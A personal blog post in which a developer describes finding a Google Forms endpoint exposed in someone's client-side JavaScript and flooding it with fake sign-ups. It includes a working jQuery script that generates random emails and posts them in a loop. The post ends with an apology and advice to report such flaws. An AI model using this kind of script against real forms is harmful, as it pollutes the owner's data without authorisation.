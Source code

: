 ```yaml
---
title: Sorry, I hacked you.
date: 2016-07-19 12:41am
categories: [javascript]
tags: [javascript]
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {
  var email = f.find(".form-email").val();
  var name = f.find(".form-name").val();

  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      entry_1111111111: email,
      entry_1111111117: name,
    },
    type: "POST",
    dataType: "xml",
    statusCode: {
      0: function () {
        window.location.replace("/path/thanks");
      },
      200: function () {
        window.location.replace("/path/thanks");
      },
    },
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText() {
  var text = "";
  var possible =
    "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
  for (var i = 0; i < 5; i++) {
    text += possible.charAt(Math.floor(Math.random() * possible.length));
  }
  return text;
}

function generateEmail() {
  var username, email, full_email;
  username = "HueBin_";
  email = "Hacked";
  full_email = username + rText() + "@" + rText() + email + ".com";
  return full_email;
}

function postContactToGoogle() {
  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      entry_1111111111: generateEmail(),
      entry_1111111117: "HueBin_",
    },
    type: "POST",
    dataType: "xml",
    crossDomain: true,
    statusCode: {
      0: function (data) {
        console.log("BAD!", data);
      },
      200: function (data) {
        console.log("GOOD", data);
      },
    },
  });
}

$(function () {
  var num = 1;
  for (var i = 0; i < num; i++) {
    setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
  }
});
```

this posted info into the database that looked simular to this:

`name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com`

`name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com`

`name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com`

`name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com`

I wrote an email stating that I was really really sorry about it. More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see. Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
